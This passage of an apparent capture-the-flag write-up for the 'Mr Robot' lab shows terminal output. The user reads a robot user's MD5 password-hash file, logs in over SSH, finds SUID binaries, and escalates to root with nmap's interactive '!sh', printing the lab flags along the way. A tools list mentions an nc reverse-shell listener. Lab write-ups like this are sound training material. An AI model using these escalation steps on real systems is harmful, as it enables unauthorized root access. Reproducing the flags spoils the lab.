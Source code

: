 **Discovery in `/home/robot`:**

```text
daemon@ip-10-10-199-99:/home/robot$ ls
key-2-of-3.txt  password.raw-md5

daemon@ip-10-10-199-99:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

**SSH to `robot` & reading key-2:**

```text
┌──(kali㉿kali)-[~/Desktop/mrrobot]
└─$ sudo ssh robot@10.10.199.99
[...]
$ ls
key-2-of-3.txt  password.raw-md5
$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

**SUID binaries and nmap interactive escalation:**

```text
$ find / -perm -u=s 2>/dev/null
[...]
/usr/local/bin/nmap

$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
root@ip-10-10-199-99:/home/ubuntu# whoami
root
root@ip-10-10-199-99:/root# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

---

## 3. Tools used

![mr.robot4](images/mr.robot4.png)

* `nmap` (scanning, interactive used during escalation)
* `gobuster` (web directory enumeration)
* `nc` (reverse shell listener)
* `python3` (pty.spawn for TTY upgrade)
* `ssh`, `ls`, `cat`, `find`, `sudo -l`, etc.

---

## 4. Reconnaissance & Enumeration
